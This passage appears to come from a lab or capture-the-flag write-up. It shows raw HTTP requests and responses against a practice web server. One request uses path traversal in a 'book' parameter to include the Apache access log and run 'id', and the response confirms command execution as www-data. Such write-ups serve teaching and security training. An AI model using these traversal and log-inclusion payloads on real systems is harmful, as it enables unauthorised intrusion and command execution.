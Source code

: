 ```http
Connection: close

HTTP/1.1 404 Not Found
Date: Mon, 12 Dec 2022 19:25:44 GMT
Server: Apache/2.4.38 (Debian)
Content-Length: 276
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
<hr>
<address>Apache/2.4.38 (Debian) Server at 192.168.250.72 Port 80</address>
</body></html>
```

Now lets read the `access.log` and try to execute a simple `id` command.
```http
GET /index.php?book=../../../../../../../../var/log/apache2/access.log&cmd=id HTTP/1.1
Host: 192.168.250.72:8593
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.250.72:8593/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=7kbv4b7lcnuu1uprcspap5i743
Connection: close

HTTP/1.1 200 OK
Host: 192.168.250.72:8593
Date: Mon, 12 Dec 2022 19:25:46 GMT
Connection: close
X-Powered-By: PHP/7.3.14-1~deb10u1
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-type: text/html; charset=UTF-8

<html>
    <head>
	<link href="https://fonts.googleapis.com/css?family=Comic+Sans" rel="stylesheet"> 
	<link rel="stylesheet" type="text/css" href="style.css">
    </head>
    <body>
	<div class="menu">
	    <a href="index.php">Main Page</a>
	    <a href="index.php?book=list">Book List</a>
	</div>
We are still setting up the library! Try later on!<p>192.168.49.250 - - [12/Dec/2022:14:25:44 -0500] "GET /index.php?teststring HTTP/1.1" 404 456 "http://192.168.250.72:8593/" "uid=33(www-data) gid=33(www-data) groups=33(www-data)
"
</p>    </body>
</html>
```
